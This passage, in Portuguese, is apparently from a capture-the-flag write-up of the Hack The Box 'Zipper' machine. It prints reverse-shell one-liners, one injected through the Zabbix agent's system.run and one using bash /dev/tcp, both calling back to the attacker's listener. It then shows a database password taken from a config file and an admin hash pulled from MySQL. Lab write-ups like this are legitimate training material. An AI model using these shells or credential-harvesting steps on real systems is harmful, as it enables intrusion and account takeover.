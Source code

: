 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_exploit7.png)

## Pegando um shell "estável"

Bom, agora vamos pegar um shell "estável", a técnica é a mesma do que foi anteriormente

`echo "system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.126 443 >/tmp/f]" | nc 10.10.10.108 10050`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_exploit9.png)

Ou poderiamos ter feito direto também

`bash -c 'bash -i >& /dev/tcp/10.10.16.126/443 0>&1'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_exploit8.png)

Beleza, vamos prosseguir então

## Enumerando o servidor

Dando uma olhada nas pastas pra ver se encotramos algo de útil, nos deparamos com o arquivo de configuração do zabbix

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_exploit10.png)

Encontramos a senha dele!

`DBPassword=f.YMeMd$pTbpY3-449`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_exploit11.png)

## Verificando senha do Admin

Uma vez que temos a senha do mysql dele, vamos nos conectar e ver o que podemos extrair dali

`mysql -u zabbix -D zabbixdb -p`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_exploit12.png)

Encontramos alguns hashs

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_exploit13.png)

`Admin  | Administrator | 65e730e044402ef2e2f386a18ec03c72`

Verificamos que a senha do admin é a mesma do zabbixdb

`echo -n "f.YMeMd\$pTbpY3-449" | md5sum`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_exploit14.png)

## Logando na aplicação

